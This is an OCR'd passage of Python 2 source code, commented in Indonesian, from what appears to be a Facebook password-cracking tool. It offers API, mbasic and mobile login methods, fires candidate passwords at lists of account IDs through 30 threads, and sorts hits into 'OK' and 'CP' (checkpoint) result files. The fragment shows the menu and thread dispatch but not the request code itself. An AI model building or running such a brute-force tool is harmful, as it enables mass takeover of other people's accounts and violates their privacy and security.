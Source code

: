                             with YayanGanteng(max_workers=30) as (__yayanXD__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('<=>')[0]
                                        __yayanXD__.submit(self.__api__, kimochi, ysc)
                                    except: pass

                            os.remove(self.apk)
                            hasil(ok,cp)
                        elif cin == '2':
                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
                            with YayanGanteng(max_workers=30) as (__yayanXD__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('<=>')[0]
                                        __yayanXD__.submit(self.__mbasic__, kimochi, ysc)
                                    except: pass

                            os.remove(self.apk)
                            hasil(ok,cp)
                        elif cin == '3':
                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
                            with YayanGanteng(max_workers=30) as (__yayanXD__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('<=>')[0]
                                        __yayanXD__.submit(self.__mfb__, kimochi, ysc)
                                    except: pass

                            os.remove(self.apk)
                            hasil(ok,cp)
                        else:
                            print '\n %s[%s×%s] input yang bener'%(N,M,N);self.__yan__()
                    print '\n [ pilih method login - silahkan coba satu² ]\n'
                    print ' [%s1%s]. method API (fast)'%(O,N)
                    print ' [%s2%s]. method mbasic (slow)'%(O,N)
                    print ' [%s3%s]. method mobile (super slow)'%(O,N)
                    __yan__(pwek.split(','))
                    break
        elif ___yayanganteng___ in ('T', 't'):
            print '\n [ pilih method login - silahkan coba satu² ]\n'
            print ' [%s1%s]. method API (fast)'%(O,N)
            print ' [%s2%s]. method mbasic (slow)'%(O,N)
            print ' [%s3%s]. method mobile (super slow)'%(O,N)
            self.__pler__()
        else:
            print '\n %s[%s×%s] y/t goblok!'%(N,M,N);time.sleep(2);moch_yayan()
        return
